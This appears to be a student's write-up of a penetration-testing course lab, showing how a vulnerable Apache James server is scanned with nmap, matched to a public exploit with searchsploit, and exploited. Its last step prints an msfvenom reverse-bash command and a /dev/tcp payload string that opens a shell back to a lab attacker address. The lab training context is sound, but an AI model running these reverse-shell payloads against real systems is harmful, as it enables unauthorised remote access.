










### 14.3.1.1 Exercises
#### 1. Connect to your dedicated Linux client and start the vulnerable Apache James service using the /usr/local/james/bin/run.sh script.

- Started server as root
  

#### 2. Enumerate the target using port scanning utilities and use information from the banners and Internet searches to determine the software running on the machine.

- Nmap scan 
  `sudo nmap 192.168.216.44 -p- -sV -vv --open --reason`

  

- Googling yields more info on the software (Apache James) + possible vulnerabilities for our version
  

#### 3. Use the searchsploit tool to find exploits for this version on the online resources mentioned in this module.

- Searchsploit shows 2 vulnerabilities for this specific version of James
  

#### 4. Launch the exploit and verify that the payload is executed upon logging in to the machine.

- Used exploit 35513.py & it worked
  
- Logged into the server.  Presence of cluttered text indicates the payload was executed:
  
- Presence of proof.txt proves the payload was executed successfully.
  

#### 5. Attempt to modify the payload variable in order to get a reverse shell on the target machine.

- I didn't want to assume the machine has netcat, so I used msfvenom to generate a reverse shell payload:

  ```bash
  msfvenom -p cmd/unix/reverse_bash LHOST=192.168.119.216 LPORT=8000 -f raw
  ```

- Inserted this into the exploit's payload variable:

  ```python
  payload =  '0<&113-;exec 113<>/dev/tcp/192.168.119.216/8000;sh <&113 >&113 2>&113'
  ```

- Ran exploit code
  

- Started netcat listener & logged into Linux target to trigger payload

  

  